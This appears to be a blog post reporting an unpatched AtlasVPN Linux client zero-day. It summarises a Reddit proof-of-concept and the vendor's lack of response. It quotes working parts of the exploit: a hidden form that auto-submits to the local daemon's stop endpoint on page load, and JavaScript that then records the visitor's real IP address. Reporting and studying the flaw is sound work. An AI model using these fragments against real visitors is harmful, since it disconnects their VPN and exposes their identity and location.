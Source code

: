 ```yaml
---
title: Unpached AtlasVPN Zero Day - Proof of Concept
date: 2023-09-03 12:00:00 +0800
categories: [VPN]
tags: [atlas vpn, privacy, exploit]     # TAG names should always be lowercase
toc: true
math: true
---
```


# Atlas VPN 
VPNs have seen a massive increase in usage in the last few years[^footnote1], with a popular provider 'Atlas VPN' reportedly gaining more than six million users before being bought out by Nord Security, owners of NordVPN [^footnote2]. NordVPN has been extensive criticized for false advertising,[^footnote3] as well as its response to a data breach in 2019 - in which private keys and root access were compromised - that the company took more than 18 months to reveal.[^footnote4]

It appears their inability to secure their services has occurred again.  

# The 0-Day
Two days ago, a throwaway account named ‘Educational-Map-8145’ (I’ll call them ‘EM8’) posted on the Cybersecurity subreddit what the user claimed to be a 0-day javascript code.  After execution this code could disconnect the “AtlasVPN linux client and leak the users IP address”. [^footnote5] 

According to EM8, the AtlasVPN runs both a client and a daemon, and the client connects via “API on localhost on port 8076”. As any program can access localhost -  including websites - the malicious javascript could be run in any website to cause the VPN to disconnect, exposing the real IP of the user, which can be collected (included in the PoC script). Fortunately, EM8 firmly stated that the code was “not intended for illegal purposes”, so AltasVPN users should be fine.

# Breakdown of Script (Very Complex Steps) 
1. Send a command to stop the VPN 
```
</code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </form>
   <script>
    window._currentIP = false;
     // Run main exploit code
    window.addEventListener('load', function () {
      addIPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // Blind CORS request to atlasvpnd to disconnect the VPN
    function triggerFormSubmission() {
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] Sending disconnect request to atlasvpnd...\n";
      document.getElementById('stopForm').submit();
```
2. Grab Real IP address
   
```
     // Gets IP from ipfy API (this, of course, could be your server)
    function addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = function () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var response = JSON.parse(xhr.responseText);
          ipAddress = response.ip;
           logDiv.innerHTML += '[?] Current IP:' + ipAddress + "\n";
```
> The Reddit poster has the code in [full](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/).
{: .prompt-info }

# Confirmation 
In a post from Chris Partridge on Mastodon, he called the “hilarious[ly]” bad security “utter garbage”.[^footnote7]  Also included with the exposé was a video which appears to demonstrate the Proof of Concept for the dropped connection, as well as the explination that since it makes "simple request" this allows it to slip past Cross-Origin Resource Sharing ([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)). 

| Click Box Below for PoC Video |
| --- | 
| ![ - - - - - - - Proof of Concept - Click here to View - - - - - - - ](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/997/661/288/787/693/original/a209c146534a35a3.mp4) | 


# AtlasVPN Response (or Lack Thereof)
In the original reddit post, EM8 claims they tried to contact AtlasVPN about the issue but received “no answer” and saw “[no] signs of a bug bounty programme”. In fact, the response was so lacking and the fact that the security “suck[ed] so massively” they found it “hard to believe this is a bug rather than a backdoor”. 

Yikes.

Hopefully Atlas will address the exploit with the same speed as NordVPN. So only 18 months to go.

> I have not verified the PoC myself.
{: .prompt-warning }

[^footnote1]: [https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/](https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/)
[^footnote2]: [https://www.comparitech.com/vpn/reviews/atlas-vpn-review/](https://www.comparitech.com/vpn/reviews/atlas-vpn-review/)
[^footnote3]: [https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi](https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi)
[^footnote4]: [https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/](https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/)
[^footnote5]: [https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/)
[^footnote7]: [https://cybersecurity.theater/@tweedge/110997661135498890](https://cybersecurity.theater/@tweedge/110997661135498890)
